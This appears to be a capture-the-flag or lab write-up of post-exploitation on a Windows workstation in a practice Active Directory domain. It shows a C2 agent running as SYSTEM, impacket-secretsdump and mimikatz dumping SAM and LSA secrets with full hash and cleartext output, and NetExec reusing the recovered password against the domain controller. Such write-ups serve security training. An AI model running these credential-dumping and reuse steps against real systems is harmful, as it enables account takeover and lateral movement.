

&nbsp;

# POST Exploitation

Now we can see that we are NTSystem:

```
[*] [04A1B793] Tasked demon to get the info from whoami /all without starting cmd.exe
[+] Send Task to Agent [31 bytes]
[+] Received Output [4499 bytes]:

UserName		SID
====================== ====================================
core\COREWKT001$	S-1-5-18


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
Mandatory Label\System Mandatory Level            Label                    S-1-16-16384                                  Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\SERVICE                              Well-known group         S-1-5-6                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
NT SERVICE\msiserver                              Well-known group         S-1-5-80-685333868-2237257676-1431965530-1907094206-2438021966 Enabled by default, Enabled group, Group owner, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  Enabled by default, Enabled group, Group owner, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeAssignPrimaryTokenPrivilege Replace a process level token                     Disabled                      
SeLockMemoryPrivilege         Lock pages in memory                              Enabled                       
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process                Disabled                      
SeTcbPrivilege                Act as part of the operating system               Enabled                       
SeSecurityPrivilege           Manage auditing and security log                  Enabled                       
SeTakeOwnershipPrivilege      Take ownership of files or other objects          Disabled                      
SeLoadDriverPrivilege         Load and unload device drivers                    Disabled                      
SeProfileSingleProcessPrivilegeProfile single process                            Enabled                       
SeIncreaseBasePriorityPrivilegeIncrease scheduling priority                      Enabled                       
SeCreatePagefilePrivilege     Create a pagefile                                 Enabled                       
SeCreatePermanentPrivilege    Create permanent shared objects                   Enabled                       
SeBackupPrivilege             Back up files and directories                     Disabled                      
SeRestorePrivilege            Restore files and directories                     Disabled                      
SeShutdownPrivilege           Shut down the system                              Disabled                      
SeAuditPrivilege              Generate security audits                          Enabled                       
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeCreateSymbolicLinkPrivilege Create symbolic links                             Enabled                       

[*] BOF execution completed
```

Now from the sam we can dump both the NTLM hash of ILENE but also her cleartext password?

```
┌──(millycash㉿kali-bello)-[~/…/345e28a2/Download/C:/temp]
└─$ ls
samantha.txt  security.txt  systemic.txt
                                                                                                                                                                                  
┌──(millycash㉿kali-bello)-[~/…/345e28a2/Download/C:/temp]
└─$ impacket-secretsdump -security security.txt -system systemic.txt local
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x43a4388b76afc21c0178ec5745728f16
[*] Dumping cached domain logon information (domain/username:hash)
CORE.CYBER.LOCAL/Ilene.Rasch:$DCC2$10240#Ilene.Rasch#c501822c6ce24a043bfd64102d933278: (2024-06-18 14:30:55)
CORE.CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#108cb25293e11c072acebcd810e23002: (2024-03-14 06:47:50)
CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2022-01-04 18:23:42)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:39007900250062004d006c003400290028005c005a0054006b00330035002a006d0038002600540023002d002a0033006a0063002a0042002f0063002b0050005b00730070002d0021002700530031005c00230063007a004a00400068003800570027005c0022003c00720022002e00570056003c0029003f0036003600780074003100240069005b006d003d002800680046005b0051006b0052006c002100760078005b005d0029007a005c005e006b003000660047002a0060007400290023002a00670057002000500071006a0056002c004500210064004f00570036005a002300280040003c00350079006000
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:8d03e710ad277b6c4c9d69e455ba34ce
[*] DefaultPassword 
(Unknown User):jiuPhee9
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x65555e89d987c17a38baf3baba3d0d4c97b05e23
dpapi_userkey:0x66c13e47d26c44ccd5677338923952d5d8eca2a4
[*] NL$KM 
 0000   80 91 DF 97 05 38 6D 30  B4 20 36 D9 6A 8C 86 CC   .....8m0. 6.j...
 0010   3F FE E9 74 35 A5 25 41  F9 81 96 F6 50 2F 05 81   ?..t5.%A....P/..
 0020   E5 E7 E2 9D C6 EF 5E 85  73 CC C8 87 CB 1D CE A0   ......^.s.......
 0030   6A D1 02 AC 23 5C FC 55  00 7D A7 6D 4E 95 09 1B   j...#\.U.}.mN...
NL$KM:8091df9705386d30b42036d96a8c86cc3ffee97435a52541f98196f6502f0581e5e7e29dc6ef5e8573ccc887cb1dcea06ad102ac235cfc55007da76d4e95091b
```

Seems like the password is indeed correct!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec ldap 10.9.15.200 -u 'ilene.rasch' -p 'jiuPhee9'
SMB         10.9.15.200     445    COREWKT001       [*] Windows 10 / Server 2019 Build 19041 x64 (name:COREWKT001) (domain:core.cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.15.200     389    COREWKT001       [-] core.cyber.local\ilene.rasch:jiuPhee9 Error connecting to the domain, are you sure LDAP service is running on the target? 
Error: [Errno 111] Connection refused
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec ldap 10.9.15.10 -u 'ilene.rasch' -p 'jiuPhee9'
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.15.10      389    COREDC           [+] core.cyber.local\ilene.rasch:jiuPhee9
```

But now we can get another flag baby!



I feel we can move on for now to the WRKT002.

&nbsp;

# Extra

Sam dump via mimikatz.exe

```
mimikatz(commandline) # lsadump::sam
Domain : COREWKT001
SysKey : 43a4388b76afc21c0178ec5745728f16
Local SID : S-1-5-21-731258190-3870040951-2229981493

SAMKey : 72dcfc9fafeb7ed4ca0771782c816f95

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 9c8d88a600656ebb70f404ad9c3a042c

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9031efd028ede8a507176617ba1704a4

* Primary:Kerberos-Newer-Keys *
    Default Salt : COREWKT001.CORE.CYBER.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : c2ae26f06174a70200ac8568476bd07ca2c9fb3e3df47eca8ddb8ec6a3768007
      aes128_hmac       (4096) : 74de6db619bb049095b40958ecc52267
      des_cbc_md5       (4096) : 9b89cba43d97c1b3
    OldCredentials
      aes256_hmac       (4096) : 2de07dd383083100392a1b4674e32e7a48f51fb48e66645d374ae83b9b09295b
      aes128_hmac       (4096) : 00fe3f101ae93cf379e955cb4f50aacb
      des_cbc_md5       (4096) : bac1ae29c7ea4c73
    OlderCredentials
      aes256_hmac       (4096) : b890c69a8493cd7130a5e2c5248c5d355c3b98fc943f725a51d9b0c4175a1189
      aes128_hmac       (4096) : a1ae96b82c0a513ff2de1182186b4f5a
      des_cbc_md5       (4096) : 8c0491150d235e80

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : COREWKT001.CORE.CYBER.LOCALAdministrator
    Credentials
      des_cbc_md5       : 9b89cba43d97c1b3
    OldCredentials
      des_cbc_md5       : bac1ae29c7ea4c73


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 954fd25162ffdda445dca6edec93b934

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 419725eb3ebd4890c94151ca44a11b9c

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 82f46980497223874b77b91558cbef7cbad2833e5cdf7e83c9f5979591d3f586
      aes128_hmac       (4096) : add8b777631fd52f26c2f525f5913fbb
      des_cbc_md5       (4096) : 970be90de6e3705e

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 970be90de6e3705e


RID  : 000003e9 (1001)
User : lkys37en
  Hash NTLM: 9307ee5abf7791f3424d9d5148b20177

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : befff551c3b27a36f028b3d4324c2acd

* Primary:Kerberos-Newer-Keys *
    Default Salt : COREWKT001.CORE.CYBER.LOCALlkys37en
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 969a3ed26fc7c004deeb883b5a68e5862fe88aa47829af131dc4636feea69b83
      aes128_hmac       (4096) : 9df26e35047302395b4b0197dbff8f35
      des_cbc_md5       (4096) : 79fe5bd594193bfd

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : COREWKT001.CORE.CYBER.LOCALlkys37en
    Credentials
      des_cbc_md5       : 79fe5bd594193bfd


RID  : 000003ea (1002)
User : yovecio
  Hash NTLM: 71ddafa4193caa4376aae61bcfeaf9d5

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 47a8bb4e815b81234d9169c683f554e1

* Primary:Kerberos-Newer-Keys *
    Default Salt : COREWKT001.CORE.CYBER.LOCALyovecio
    Default Iterations : 4096

[+] Received Output [453 bytes]:
    Credentials
      aes256_hmac       (4096) : 3f21480cbec343e44050b5f249ab342339d1b9dc21e68a07dab4373bf0a01ae0
      aes128_hmac       (4096) : cae81a7ce2bf04e83623a26d3d55d901
      des_cbc_md5       (4096) : 61e0aee3dfa49125

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : COREWKT001.CORE.CYBER.LOCALyovecio
    Credentials
      des_cbc_md5       : 61e0aee3dfa49125


mimikatz(commandline) # exit
Bye!
```

And if we dump the secrets we can find more? **6IVx7cxECM6m57WVjrqfH1gvluKnvN**

```
.#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

592	{0;000003e7} 1 D 30448     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000003e7} 1 D 3029580   	NT AUTHORITY\SYSTEM	S-1-5-18	(11g,19p)	Primary
 * Thread Token  : {0;000003e7} 1 D 3085492   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # lsadump::secrets
Domain : COREWKT001
SysKey : 43a4388b76afc21c0178ec5745728f16

Local name : COREWKT001 ( S-1-5-21-731258190-3870040951-2229981493 )
Domain name : core ( S-1-5-21-1559563558-3652093953-1250159885 )
Domain FQDN : core.cyber.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {86f5eb6b-ba8b-9207-ddb8-08a84381884d}
  [00] {86f5eb6b-ba8b-9207-ddb8-08a84381884d} 322b2979480b51daf8144bd3e1f0c1967fa7dfe438e43d5f486e143e54d8ba7f

Secret  : $MACHINE.ACC
cur/text: 9y%bMl4)(\ZTk35*m8&T#-*3jc*B/c+P[sp-!'S1\#czJ@h8W'\"<r".WV<)?66xt1$i[m=(hF[QkRl!vx[])z\^k0fG*`t)#*gW PqjV,E!dOW6Z#(@<5y`
    NTLM:8d03e710ad277b6c4c9d69e455ba34ce
    SHA1:4f27ed2813798f044d945c715a2f77f8a6d01e97
old/text: 9y%bMl4)(\ZTk35*m8&T#-*3jc*B/c+P[sp-!'S1\#czJ@h8W'\"<r".WV<)?66xt1$i[m=(hF[QkRl!vx[])z\^k0fG*`t)#*gW PqjV,E!dOW6Z#(@<5y`
    NTLM:8d03e710ad277b6c4c9d69e455ba34ce
    SHA1:4f27ed2813798f044d945c715a2f77f8a6d01e97

Secret  : CachedDefaultPassword
old/text: 6IVx7cxECM6m57WVjrqfH1gvluKnvN

Secret  : DefaultPassword
cur/text: jiuPhee9

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 65 55 5e 89 d9 87 c1 7a 38 ba f3 ba ba 3d 0d 4c 97 b0 5e 23 66 c1 3e 47 d2 6c 44 cc d5 67 73 38 92 39 52 d5 d8 ec a2 a4 
    full: 65555e89d987c17a38baf3baba3d0d4c97b05e2366c13e47d26c44ccd5677338923952d5d8eca2a4
    m/u : 65555e89d987c17a38baf3baba3d0d4c97b05e23 / 66c13e47d26c44ccd5677338923952d5d8eca2a4
old/hex : 01 00 00 00 ad 98 bd 6f 32 c9 e8 09 92 8b ec 7d 9b 65 9b 95 f1 58 90 03 d2 db 45 8e 06 ce c0 dc 20 eb 30 ce 3a 77 93 fd b7 04 f3 4c 
    full: ad98bd6f32c9e809928bec7d9b659b95f1589003d2db458e06cec0dc20eb30ce3a7793fdb704f34c
    m/u : ad98bd6f32c9e809928bec7d9b659b95f1589003 / d2db458e06cec0dc20eb30ce3a7793fdb704f34c

Secret  : NL$KM
cur/hex : 80 91 df 97 05 38 6d 30 b4 20 36 d9 6a 8c 86 cc 3f fe e9 74 35 a5 25 41 f9 81 96 f6 50 2f 05 81 e5 e7 e2 9d c6 ef 5e 85 73 cc c8 87 cb 1d ce a0 6a d1 02 ac 23 5c fc 55 00 7d a7 6d 4e 95 09 1b 
old/hex : 80 91 df 97 05 38 6d 30 b4 20 36 d9 6a 8c 86 cc 3f fe e9 74 35 a5 25 41 f9 81 96 f6 50 2f 05 81 e5 e7 e2 9d c6 ef 5e 85 73 cc c8 87 cb 1d ce a0 6a d1 02 ac 23 5c fc 55 00 7d a7 6d 4e 95 09 1b 

mimikatz(commandline) # exit
Bye!
```

&nbsp;

&nbsp;